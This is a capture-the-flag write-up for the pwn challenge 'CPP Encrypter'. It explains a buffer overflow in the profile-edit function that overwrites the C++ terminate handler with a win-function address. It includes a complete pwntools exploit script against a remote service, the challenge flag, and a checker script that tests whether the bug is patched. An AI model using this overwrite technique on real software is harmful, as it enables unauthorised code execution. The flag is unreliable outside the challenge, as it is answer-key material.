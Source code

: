 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

```c
    if (0xfffffffffffffff < uVar2) {
      uVar3 = __cxa_throw_bad_array_new_length();
      goto LAB_004020f1;
    }
```

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

## Solve Script

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
# p = remote("localhost", 10002)
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```

![image](https://github.com/user-attachments/assets/108a3920-876b-4681-b223-317915787f21)

> Flag : UMCS{AW3S0ME_3NCRYPT0R_S0LLV33_73bb3661}

## SLA

```py
#!/usr/bin/env python3
"""
Service-health checker for the “Encrypt Messages” huge-array allocation bug.

Return codes:
0 – vulnerable / unpatched
1 – patched
2 – service down
"""
import socket
import sys
import time

# Status codes
UNPATCHED, PATCHED, DOWN = 0, 1, 2

# ======= helpers ============================================================

def recv_until(sock, marker: bytes, timeout=8.0) -> bool:
    """Receive until *marker* appears or timeout expires. Returns True on success."""
    sock.settimeout(timeout)
    data = b""
    try:
        while marker not in data:
            chunk = sock.recv(1024)
            if not chunk:
                return False          # connection closed
            data += chunk
        print(data)
        return True
    except (socket.timeout, ConnectionResetError):
        return False

def send_line(sock, line: str):
    sock.sendall(line.encode() + b"\n")

# ======= main check =========================================================

def run_check(host: str, port: int) -> int:
    try:
        s = socket.create_connection((host, port), timeout=3)
    except (socket.timeout, ConnectionRefusedError):
        return DOWN

    try:
        # Step 1: Create account
        if not recv_until(s, b"Enter choice: "):
            print(82)
            return DOWN
        send_line(s, "1")  # menu → Create Account
        print("creating account")

        if not recv_until(s, b"Enter username: "):
            print(222)
            return DOWN
        send_line(s, "t")  # 1-byte username keeps parsing simple

        if not recv_until(s, b"Enter password: "):
            return DOWN
        send_line(s, "t")
        print("created account")

        # Wait for success banner and next menu
        if not recv_until(s, b"Enter choice: "):
            return DOWN
        print("yes no?")

        # Step 2: Log in
        send_line(s, "2")
        if not recv_until(s, b"Username: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Password: "):
            return DOWN
        send_line(s, "t")
        if not recv_until(s, b"Login successful!\n"):
            return DOWN

        # print("login success")
        if not recv_until(s, b"Enter choice: "):
            return DOWN

        print("yes no?")

        # Step 3: Trigger the bug in “Encrypt Messages”
        send_line(s, "5")
        if not recv_until(s, b"How many messages to hash? "):
            return DOWN
        huge = "500000000000000000000"
        send_line(s, huge)
        print("sent big")

        # If the service is patched, it should send an error message **and**
        # return to the menu within a short window.
        patched_response = recv_until(s, b"Enter choice:", timeout=2)
    
        if patched_response:
            return PATCHED  # still alive → patched
        else:
            # Connection may already be dead; double-check with a tiny pause
            time.sleep(0.5)
            try:
                s.send(b"PING\n")
            except Exception:
                return UNPATCHED        # crashed → vulnerable
            return UNPATCHED            # still up but ignored us → treat as vuln
    finally:
        try:
            s.close()
        except Exception:
            pass

# ======= entry-point ========================================================

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 10102

    status = run_check(host, port)
    print(status)
    sys.exit(status)
```

The SLA script checks if you still are able to send a big number as the array length. There are probably many ways to patch this such as removing the call, adding jump instructions or modifying jump conditions so I'll just leave it up to you guys to find out :D
